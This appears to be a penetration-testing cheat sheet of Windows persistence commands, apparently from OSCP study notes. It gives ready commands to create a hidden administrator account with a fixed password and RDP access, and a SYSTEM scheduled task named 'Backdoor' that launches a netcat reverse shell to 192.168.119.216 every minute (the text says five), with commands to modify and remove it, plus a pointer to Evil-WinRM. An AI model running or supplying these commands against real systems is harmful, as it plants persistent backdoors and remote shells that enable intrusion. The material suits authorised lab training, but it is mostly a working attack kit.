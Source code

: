 ### Windows

#### Admin User

```powershell
net user drwily oscp@234 /add
net localgroup "Remote Desktop Users" drwily /add
net localgroup administrators drwily /add
```

#### Firewall Rules

```powershell

```

#### Task Scheduler

Create a scheduled task to run daily at 11:00 as admin

```powershell
SCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "C:\Windows\System32\notepad.exe" /ST 11:00 /RU admin
```

Create a scheduled task to run every 5 mins as SYSTEM

```powershell
SCHTASKS /CREATE /TN "Backdoor" /SC MINUTE /MO 1 /tr "c:\coyote\nc.exe -nv 192.168.119.216 8010 -e cmd.exe" /RU "SYSTEM"
```

Show a task:

```powershell
schtasks /query /fo LIST /v /TN "Backdoor"

schtasks /query /fo LIST /v /TN "backup_perl"

schtasks /query
```

Modify an existing task:

```bash
schtasks /change /tr "c:\coyote\nc.exe -nv 192.168.119.216 8010 -e cmd.exe" /TN "Backdoor"

# Uses the same options as when creating task, just specify the option and the value to change to.  Note that some options cannot be changed, just delete it and recreate it then.
```

Delete a task:

```powershell
schtasks /delete /f /tn "Backdoor"
```

#### Evil-WinRM

For systems with Windows Remote Management open (usually port 5985), you can leverage this with valid credentials to do all kinds of things with the system.  

https://github.com/Hackplayers/evil-winrm

